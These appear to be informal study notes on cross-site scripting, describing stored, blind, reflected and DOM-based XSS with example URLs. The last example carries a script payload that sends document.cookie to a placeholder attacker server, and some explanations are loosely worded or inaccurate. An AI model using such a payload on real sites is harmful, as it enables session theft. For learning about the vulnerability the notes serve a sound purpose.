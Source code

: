 ### Types of XSS

* XSS happens when scripts run on a victim's browser when a website cant tell the difference betweene user input and website code.
* Stored XSS - When user input is stored on a server and retrieved later unsafely.
    * Although they weren't properly sanitized being injected, scripts could be escaped/sanitized if it was being retrieved 
    * Most dangerous type of XSS
    * <script> alert('XSS by Vickie'); </script>
    * Cookies and personal info could be stolen with XSS. But it can also change site contents and redirect to other sites.
 * Blind XSS - a stored XSS that takes place someplace else in the application.
    * Harder to detect, you cant find them by lookinh got reflected input from the server.
    * Attacks can host their own server and if they see a response to that server, then that web application has that XSS vulnerability.
 * Reflected XSS - user input is returned without being stored in a database. Often found in input forms that build pages, like search boxes.
     * https://example.com/search?q=<script> ... </script>
     * Not only could they extract data, but **perform malicious actions on the victim's machine on behalf of the attacker**.
 * DOM-based XSS - similar to a reflected XSS except it doesnt leave the browser. Scripts injected stay on the browser and targets the DOM of a web page.
     * DOM specifies how HTML creates a webpage and how scripts modify it.
     * Targets local files saved on the browser.
     * jQuery alters the DOM is often vulnerable to these type of attacks.
     * Can be embedded in fragments and URL parameters:
         * https://example.com#about_us
         * https://example.com?locale=<script>location='http://attacker_server_ip/?c=+document.cookie;</script> 
